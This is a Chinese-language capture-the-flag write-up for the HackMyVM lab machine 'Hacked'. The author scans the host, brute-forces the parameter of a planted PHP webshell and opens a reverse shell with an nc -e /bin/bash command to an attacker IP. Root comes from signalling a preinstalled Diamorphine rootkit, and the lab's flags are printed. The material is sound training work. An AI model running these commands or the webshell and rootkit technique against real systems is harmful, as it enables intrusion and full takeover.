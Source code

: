 ```yaml
---
{"created":"2024-12-01T18:07:21.015+08:00","tags":["HMV","rootkit","Diamorphine"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️","作者":"sml","aliases":null,"permalink":"/24-渗透/HMV/34.hacked/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/34.hacked#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/34.hacked#2. 信息收集\|2. 信息收集]]
	- [[24-渗透/HMV/34.hacked#2.1. 端口扫描\|2.1. 端口扫描]]
	- [[24-渗透/HMV/34.hacked#2.2. 目录扫描\|2.2. 目录扫描]]
	- [[24-渗透/HMV/34.hacked#2.3. 获取参数\|2.3. 获取参数]]
- [[24-渗透/HMV/34.hacked#3. 提权\|3. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=Hacked
**作者**  sml
**难度** ⭐️⭐️⭐️⭐️️

## 2. 信息收集

### 2.1. 端口扫描
```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# fscan -h 192.168.42.185

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.42.185:22 open
192.168.42.185:80 open
```

主页
```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# curl http://192.168.42.185/
HACKED BY h4x0r
```

### 2.2. 目录扫描
```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# dirsearch -u http://192.168.42.185/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/hmv/hacked/reports/http_192.168.42.185/__24-12-01_18-09-55.txt

Target: http://192.168.42.185/

[18:09:55] Starting:
[18:10:13] 200 -   16B  - /robots.txt
[18:10:14] 302 -   62B  - /simple-backdoor.php  ->  /
```

```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# curl http://192.168.42.185/robots.txt
/secretnote.txt

┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# curl http://192.168.42.185//secretnote.txt
[X] Enumeration
[X] Exploitation
[X] Privesc
[X] Maintaining Access.
 |__> Webshell installed.
 |__> Root shell created.

-h4x0r

┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# curl http://192.168.42.185//simple-backdoor.php
I modified this webshell to only execute my secret parameter.
```

**收集到的信息**
```
用户 h4x0r 
webshell    /simple-backdoor.php
执行参数 未知
```

### 2.3. 获取参数
从收集的这些信息当中猜测Webshell的参数
试了几个参数都不对。猜测可能是需要爆破才行

```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# ffuf -u http://192.168.42.185/simple-backdoor.php?FUZZ=id -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt |grep -v "Size: 62"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.42.185/simple-backdoor.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

secret                  [Status: 302, Size: 115, Words: 12, Lines: 2, Duration: 19ms]
```

获取到参数是 `secret` 之前有在网页试过这个参数。应该是302了导致没有显示出来
抓包的话可以看到
![Pasted image 20241201183435](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201183435.png)

弹shell
```
nc -e /bin/bash 192.168.42.39 1111
nc%20-e%20%2Fbin%2Fbash%20192.168.42.39%201111
```

```bash
[18:42:48] Welcome to pwncat 🐈!                                                              __main__.py:164
[18:46:34] received connection from 192.168.42.185:36606                                           bind.py:84
[18:46:35] 192.168.42.185:36606: registered new host w/ db                                     manager.py:957
(local) pwncat$
(remote) www-data@hacked:/var/www/html$ whoami
www-data
(remote) www-data@hacked:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@hacked:/var/www/html$
```

## 3. 提权
这靶机上gcc编译不了。找不到Ld
可以尝试从其他版本相近的靶机编译后传过来。
这里我就不尝试了

使用linpeas进行检测。也没有发现什么利用点

去看一下wp才发现原来这里存在`Rootkit`
https://github.com/m0nad/Diamorphine

```bash
kill -63 0 取消隐藏进程
lsmod 列出加载到内核中的模块
```
![Pasted image 20241201193026](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201193026.png)
可以看到确实安装了[[26-工具使用/Diamorphine使用\|Diamorphine]] 

[[26-工具使用/Diamorphine使用\|海洛因]]有一个特征
![Pasted image 20241201193108](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201193108.png)
我们发送信号64即可获取到root

```bash
(remote) www-data@hacked:/tmp$ kill -64 0
(remote) root@hacked:/tmp$ id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

```bash

(remote) root@hacked:/root$ sh flag.sh

                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,
-------------------------

PWNED HOST: hacked

PWNED DATE: Sun Dec  1 06:32:33 EST 2024

WHOAMI: uid=0(root) gid=0(root) groups=0(root),33(www-data)

FLAG: HMVhackingthehacker

------------------------


remote) root@hacked:/home/h4x0r$ sh flag.sh

                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,
-------------------------

PWNED HOST: hacked

PWNED DATE: Sun Dec  1 06:32:55 EST 2024

WHOAMI: uid=0(root) gid=0(root) groups=0(root),33(www-data)

FLAG: HMVimthabesthacker

------------------------

```